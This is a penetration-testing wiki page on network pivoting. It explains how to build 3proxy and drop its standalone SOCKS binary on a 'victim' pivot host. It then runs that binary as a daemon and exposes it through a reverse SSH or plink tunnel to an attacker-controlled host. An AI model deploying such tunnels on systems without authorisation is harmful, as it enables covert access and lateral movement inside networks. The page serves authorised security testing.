 # RF + SOCKS Proxy

One problem with Remote and Local Forwarding, is that the tunnel is open for a port(s) you specify, which slows down the progress to type the command if you need multiple ports. To remedy this, and to enable dynamic port and target mapping in the same way as with SSH Dynamic Forwarding, the trick is to bind a proxy server to the pivot instead of the target.

To do this, you will need to deploy a proxy server on the pivot.

Of course, there is the well-known `proxychains` tool or its next-generation variant, which may be useful as a client but will be difficult to use as a proxy server on the pivot due to compilation issues. That is why we are going to focus on `3proxy`.

* `proxychains` only works with dynamically linked programs and with the same version used for proxychains
* `proxychains-ng` has the same limitation.
* 3proxy\` advanced proxy, can be deployed as a portable (system library agnostic) version.

### Method with 3proxy:

* We will compile the binary to be deployed on the pivot from the auditor's machine and distribute it via an HTTP server:

```bash
git clone https://github.com/z3APA3A/3proxy.git
cd 3proxy
make -f Makefile.Linux
```

{% hint style="info" %}
Note: If the pivot is a Windows, there is also a Windows makefile or precompiled binaries. The same for other more exotic operating systems.
{% endhint %}

* Here we will use one of the standalone binaries (socks) provided by 3proxy instead of the full 3proxy binary which is more powerful but requires a configuration file. We transfer the `socks` file, which is located in the bin directory, to the victim machine: File Transfer
* Launch the proxy server on port 10080:

```bash
# Pivot machine (victim):
./socks '-?' # Help panel.
./socks -p10080 -tstop -d
```

* Finally, we launch the SSH reverse remote forwarding:

```bash
ssh sshpivot@<LHOST> -R <LPORT>:127.0.0.1:10080 -N # Linux 
plink.exe sshpivot@<LHOST> -R <LPORT>:127.0.0.1:10080 # Windows with plink.exe
```
